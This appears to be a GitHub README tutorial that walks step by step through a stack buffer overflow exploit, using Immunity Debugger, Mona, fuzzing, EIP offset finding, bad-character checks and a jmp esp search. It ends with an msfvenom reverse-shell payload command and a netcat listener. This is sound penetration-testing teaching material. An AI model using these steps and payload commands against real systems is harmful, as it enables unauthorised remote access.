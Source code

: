 # Buffer Overflow

[1. Quick Setup](#quick-setup)

[2. Fuzz the Application](#fuzz-the-application)
  
[3. Replicating the Crash and Controlling EIP](#replicating-the-crash-and-controlling-eip)

[4. Find Bad Characters](#finding-bad-characters)

[5. Find the Jump Point](#find-the-jump-point) 

[6. Generate the Payload](#generate-the-payload)

[7. Exploit](#exploit)

## Quick Setup

Install [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py)

Install [Mona](https://github.com/corelan/mona) (Move the mona.py file to the PyCommands file in Immunity Debugger)

Set a working directory for Mona from the Immunity Debugger. Run the following command from the command line in Immunity Debugger:

<code>!mona config -set workingfolder c:\mona\%p</code>

![alt-text](.src/Mona_Command.png)

## Fuzz the Application

Launch Immunity Debugger as Administrator, and use the "File -> Open" command to bring up the vulnerable application. Notice that this does not run the aplication, it still needs to be executed.  

![alt-text](.src/Paused_State.png)

Click the red play button at the top of the window to execute the file

![alt-text](.src/Running_State.png)

Use the program located [here](fuzzer.py) to fuzz the application. It will send strings to the application incrementing by 100 characters each time until the app crashes or it reaches a string of length 3000.

<code>python fuzzer.py</code>

![alt-text](.src/Fuzzing.png)

Make note of when the script stops/the application crashes and the length of the string that caused the crash.

## Replicating the Crash and Controlling EIP

Use the program located [here](exploit.py) (This is the base script, we will modify it as needed with the information we acquire during the assessment of the application)

Note: that the prefix variable will need to be changed to account for whatever initial option the applications takes.

We then need to generate a string of the length of the string that crashed the application + 400. In our case, the application crashed after the 2000 string, so we will generate our string to be size 2400

<code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400</code>

![alt-text](.src/Crash_String.png)

Copy this output to the "payload" field in the exploit.py script

Restart the application in the Immunity Debugger and run the exploit.py script.

<code>python exploit.py</code>

The app should crash again, run the following command in Immunity Debugger:

<code>!mona findmsp -distance 2400</code>

Note that we use the same length as the pattern we created earlier.

Mona will display a window with some output in the form of:

> EIP contains normal pattern: ... (offset XXXX)

![alt-text](.src/EIP_Offset.png)

We will then need to update our exploit.py script and set the offset variable to the value of the offset. 

Set the retn variable to "BBBB"

Set the payload back to an emptry string

Restart the application in Immunity Debugger and rerun the exploit.py script.

We should see the EIP register is now 42424242 (BBBB)

![alt-text](.src/EIP_Overwritten.png)

## Finding Bad Characters

We will generate a bytearray with Mona (Excluding the "\x00" character). Run the following command in Imunity Debugger

<code>!mona bytearray -b "\x00"</code>

Then, generate a string of bad characters that is identical to the bytearray. Use the python code [here](byte_array.py).

![alt-text](.src/Byte_Array.png)

Update the payload variable in the exploit.py file with the byte array generated from the python code.

Restart the application and run the exploit.py script again.

Use the following command to print the differences between the bytearray and the values in memory

<code>!mona compare -f C:\path\to\array\bytearray.bin -a [ESP ADDRESS]</code>

![alt-text](.src/Bad_Chars.png)

Note: Not every character in the output will be a bad character, we will remove them from the generated bytearray one at a time.

<code>!mona bytearray -b "\x00\xXX\xXX"</code>

Remove these same characters from the payload in exploit.py

Restart the application and rerun the exploit.py file until Mona returns "Unmodified", this lets us know there are no bad characters left.

Note: Keep a file of these bad characters, you will need them to find the jump point.

![alt-text](.src/Unmodified.png)

## Find the Jump Point

While the application is crashed or running run the following Mona command in Immunity Debugger with the list of bad caracters found in the previous steps

<code>!mona jmp -r esp -cpb "\x00\xXX\xXX"</code>

This should bring up a window that will have several addresses to several "jmp esp" memory locations.

![lt-text](.src/Jump_Addresses.png)

Pick an address and update the retn variable in the exploit.py file. 

Note: Keep in mind the architecture of the host. If the host is running in little endian, then the address needs to be written backwards (i.e. if the address is 123456 then the little endian address would be 654321). Convert the address to HEX by adding a "\x" before every two characters (i.e. if the address is 123456 then the HEX version would be \x12\x34\x56). If we are running in little endian then the final address would be "\x56\x34\x12".

![alt-text](.src/Little_Endian.png)

## Generate the Payload

Use <code>msfvenom</code> to generate shellcode.

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=443 EXITFUNC=thread -b "[BAD_CHARACTERS]" -f py</code>

Copy the output to the payload variable in the exploit.py file

Note: The msfvenom command outputs the shellcode under the name buf = "...", make sure to change the name to payload before executing the script.

Add some space to allow the shellcode to unpack by setting the padding variable to:

<code>padding = "\x90" * 16</code> 

## Exploit

Setup a netcat listener 

<code>nc -lnvp 443</code>

Restart the application and run exploit.py, and we should catch a shell.
